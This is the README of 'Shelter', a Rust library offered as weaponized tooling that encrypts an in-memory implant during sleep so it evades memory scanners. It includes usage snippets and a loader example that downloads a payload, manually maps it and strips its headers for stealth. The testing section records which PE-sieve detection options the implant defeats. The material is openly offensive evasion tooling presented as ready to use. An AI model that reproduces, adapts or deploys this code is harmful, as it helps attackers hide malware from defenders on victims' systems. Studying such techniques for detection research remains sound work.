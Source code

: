 # Shelter
Shelter is a completely weaponized sleep obfuscation technique that allows to fully encrypt your in-memory payload making an extensive use of ROP.

This crate comes with the following characteristics:
* AES-128 encryption.
* Whole PE encryption capability.
* Removal of execution permission during sleep time.
* No APC/HWBP/Timers used, exclusive use of ROP to achieve the obfuscation.
* Use of [Unwinder](https://github.com/Kudaes/Unwinder) to achieve call stack spoofing before executing the ROP chain.
* Different methods of execution to adapt to various circumstances.
* Other OPSEC considerations: [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs), indirect syscalls, string literals encryption, etc.  
  

### Content
- [Usage](#usage)
- [Examples](#examples)
  - [fluctuate](#fluctuate)
  - [fluctuate_from_address](#fluctuate_from_address)
  - [fluctuate_from_pattern](#fluctuate_from_pattern)
- [Testing the module](#Testing-the-module)
- [TO-DO](#TO-DO)
<br>

---

## Usage

Import this crate into your project by adding the following line to your `cargo.toml`:

```rust
[dependencies]
shelter = "0.1.0"
```

The main functionality of this crate has been wrapped in three functions:
* `fluctuate()` allows to encrypt either the current memory region or the whole PE. This function requires the PE's MZ bytes to be present in order to dynamically retrieve its base address.
* `fluctuate_from_address()` completely encrypts the PE. This function expects as input parameter the PE's base address.
* `fluctuate_from_pattern()` also completely encrypts the PE. This function expects as input parameter a custom set of two bytes to use to determine the PE's base address. These custom magic bytes replace the classic MZ pattern.

Whenever the whole PE is encrypted, the original sections' memory protections are stored in the heap in order to restore them afterwards. 

Shelter uses [NtWaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntwaitforsingleobject) to sleep. In addition to indicating how many seconds you want to sleep, you can also pass an event handle and signal it at any time to return before the timeout expires (using [SetEvent](https://learn.microsoft.com/es-es/windows/win32/api/synchapi/nf-synchapi-setevent) for example). Take into account that if your whole payload is encrypted (which is the whole point I guess), you will need an alternative way to signal the event in case that you have slept indefinitely.  
<br>


## Examples
### fluctuate 

The function expects the following parameters:
* A boolean value indicating whether encrypt the whole PE or just the current memory region. Passing `true` requires the MZ bytes to be present in memory.
* The number of seconds that the program will sleep for. If it is left to `None`, the timeout will be infinite, which means the execution will not return until the event passed to NtWaitForSingleObject is signaled.
* An event handle to be passed to NtWaitForSingleObject. This parameter can be `None`. The program will get stuck if you set this parameter and the timeout both to `None`.

```rust
let time_to_sleep = Some(10); // Sleep for 10 seconds
let _ = shelter::fluctuate(false, time_to_sleep, None); // Encrypt only the current memory region
```
```rust
let time_to_sleep = Some(10); // Sleep for 10 seconds
let _ = shelter::fluctuate(false, time_to_sleep, None); // Encrypt the whole PE
```
```rust
pub type CreateEventW = unsafe extern "system" fn (*const SECURITY_ATTRIBUTES, i32, i32, *const u16) -> HANDLE;

let k32 = dinvoke_rs::dinvoke::get_module_base_address("kernel32.dll"); 
let create_event: CreateEventW;
let event_handle: Option<HANDLE>;
dinvoke_rs::dinvoke::dynamic_invoke!(k32,"CreateEventW",create_event,event_handle,ptr::null_mut(),0,0,ptr::null());
let time_to_sleep = None; // Sleep indefinitely
let _ = shelter::fluctuate(true, time_to_sleep, event_handle); // Encrypt the whole PE until the event is signaled
```
<br>

### fluctuate_from_address

The function expects the following parameters:
* The number of seconds that the program will sleep for. If it is left to `None`, the timeout will be infinite, which means the execution will not return until the event passed to NtWaitForSingleObject is signaled.
* An event handle to be passed to NtWaitForSingleObject. This parameter can be `None.` The program will stuck if you set this parameter and the timeout both to `None`.
* The base address from which the PE is mapped. 

One way to use this function would be to manually map our payload with `Dinvoke_rs`. This way, the loader can send the payload its own base address, so then the payload can use it to obfuscate itself whenever is needed. This way, the loader can safely remove the PE's headers in order to achieve a certain level of stealthiness.

Loader example:

```rust
let payload: Vec<u8> = your_download_function();
let mut m = dinvoke_rs::manualmap::manually_map_module(payload.as_ptr(), true).unwrap();
println!("The dll is loaded at base address 0x{:x}", m.1);
let dll_exported_function = dinvoke::get_function_address(m.1, "run");

let run: unsafe extern "Rust" fn (usize) = std::mem::transmute(dll_exported_function);
run(m.1 as usize);
```

Payload example: 

```rust
#[no_mangle]
fn run(base_address: usize)
{
	...
	let time_to_sleep = Some(10); // Sleep for 10 seconds
	let _ = shelter::fluctuate_from_address(time_to_sleep, None, base_address); // Encrypt the entire PE from this specific base address
	...
}
 ```
<br>

### fluctuate_from_pattern

The function expects the following parameters:
* The number of seconds that the program will sleep for. If it is left to `None`, the timeout will be infinite, which means the execution will not return until the event passed to NtWaitForSingleObject is signaled.
* An event handle to be passed to NtWaitForSingleObject. This parameter can be `None`. The program will stuck if you set this parameter and the timeout both to `None`.
* A `[u8;2]` array containig custom magic bytes to look for in order to obtain the PE's base address. 

The point of creating this function is to allow the loader to remove PE's header and other signatures, including the classic MZ bytes. This way, those bytes can be replaced by a custom pattern that Shelter will look for in order to retrieve the PE's base address.

```rust
let time_to_sleep = Some(10); // Sleep for 10 seconds
let pattern = [0x29,0x07];
let _ = shelter::fluctuate_from_pattern(time_to_sleep, None, pattern); // Encrypt the whole PE using custom pattern as magic bytes
```  
    
<br>

## Testing the module

In order to test the implementation of the technique, mainly [PE-sieve](https://github.com/hasherezade/pe-sieve) has been used. By default, PE-sieve looks for implants within executable memory regions, which means that even obfuscating exclusively the current memory region (`.text`) is enough to avoid detections:

![Current memory region obfuscation.](/images/current_PE1.PNG "Current memory region obfuscation")
![Current memory region obfuscation (Process Hacker).](/images/current_PE1.2.PNG "Current memory region obfuscation (Process Hacker)")

Notice that, since we are using `Unwinder`, the call stack is spoofed and therefore the flag `/threads` does not detect the mapped dll neither.

Now, PE-sieve allows to inspect non executable memory regions as well by using the `/data` flag. According to the [official documentation of the tool](https://github.com/hasherezade/pe-sieve/wiki/4.4.-Scan-non-executable-memory-(data)), this flag set to `always` can "produce a lot of noise/false positives". Despite that, we decided to use it in order to check the effectiveness of the whole PE encryption capability, since it allows to hide PE's data regions that could contain indicators of the presence of a in-memory implant.

![Current memory region obfuscation detected by PE-sieve.](/images/current_PE2.PNG "Current memory region obfuscation detected by PE-sieve")
![Entire PE obfuscation stays undetected.](/images/entire_PE.PNG "Entire PE obfuscation stays undetected")

As it can be seen, in the first picture it is shown how obfuscating just the `.text` section is not enough when PE-sieve scans non executable memory pages, since some regions could contain strings that reveal the presence of a DLL (MZ, DOS header, section names, etc.). On the other hand, the second image shows how this issue can be solved by using Shelter's whole PE obfuscation mechanism. In any case and as stated in the PE-sieve's wiki, this option leads to tons of false positive since the mere presence in the heap of strings like ".data" or "rdata" already warns of possible implanted PE, despite it is not able to dump anything from the memory (since there is not any real PE content in that region).

Finally, PE-sieve has a fairly new option to detect the presence of obfuscated implants by looking for high entropy memory regions. This option (`/obfusc`) in combination with `/data` is able to detect the presence of the payload due to the high entropy of the memory region that contains it (although it can't retrieve the PE since it's fully encrypted):

![Entire PE obfuscation detection.](/images/high_entropy.PNG "Entire PE obfuscation detection")
![Entire PE obfuscation (Process Hacker).](/images/high_entropy2.PNG "Entire PE obfuscation (Process Hacker)")
<br>

## TO-DO

Although Shelter is ready to use and it has been developed with OPSEC in mind, there are still some enhancements that will be added in the nearby future:
* Reduce entropy when the whole PE is encrypted.
* Replace `BCryptEncrypt`/`BCryptDecrypt` with the corresponding Nt function.
* Add some randomness to the gadget selection process.

## Previous work
* [Gargoyle](https://github.com/JLospinoso/gargoyle)
* [Ekko](https://github.com/Cracked5pider/Ekko)
* [Cronos](https://github.com/Idov31/Cronos)
